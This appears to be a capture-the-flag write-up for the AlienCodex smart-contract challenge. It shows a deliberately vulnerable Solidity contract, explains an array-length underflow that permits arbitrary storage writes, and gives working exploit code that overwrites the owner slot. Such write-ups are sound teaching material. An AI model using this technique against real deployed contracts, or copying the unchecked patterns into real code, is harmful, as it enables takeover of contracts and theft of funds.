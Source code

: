 <div align="center">

# AlienCodex

</div>



**AlienCodex (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}


```

</details>

---------

**Approach and Exploit Method Including Code :** 

1. **Understand the contract**

   - `AlienCodex` maintains a dynamic `bytes32[] codex` array and an `owner` from `Ownable`.  
   - Users must first call `makeContact()` to set `contact = true` before using `record()`, `retract()`, or `revise()`.  
   - `retract()` decreases `codex.length` without bounds checks, allowing **underflow**.  
   - `revise(i, _content)` writes to `codex[i]` without validating the index, which can be abused to overwrite **any storage slot**, including slot 0 where `owner` is stored.

2. **Vulnerability Highlight (key part)**


```solidity
function retract() public contacted {
    codex.length--; // underflow possible — can wrap to 2**256 - 1
}

function revise(uint256 i, bytes32 _content) public contacted {
    codex[i] = _content; // arbitrary storage overwrite if i is large
}
```


## Exploit Code

```Solidity

contract AlienCodexExploit {
    function attack(address _alienCodex) external {
        // Cast to the interface
        AlienCodex alienCodex = AlienCodex(_alienCodex);
        
        // Step 1: Make contact
        alienCodex.makeContact();
        
        // Step 2: Cause underflow
        alienCodex.retract();
        
        // Step 3: Calculate index to overwrite slot 0
        uint256 arrayStart = uint256(keccak256(abi.encode(uint256(1))));
        uint256 index = (2**256 - 1) - arrayStart + 1;
        
        // Step 4: Overwrite owner with our address
        bytes32 newOwner = bytes32(uint256(uint160(msg.sender)));
        alienCodex.revise(index, newOwner);
    }
}

interface AlienCodex {
    function makeContact() external;
    function retract() external;
    function revise(uint256 i, bytes32 _content) external;
    function owner() external view returns (address);
}


```

---


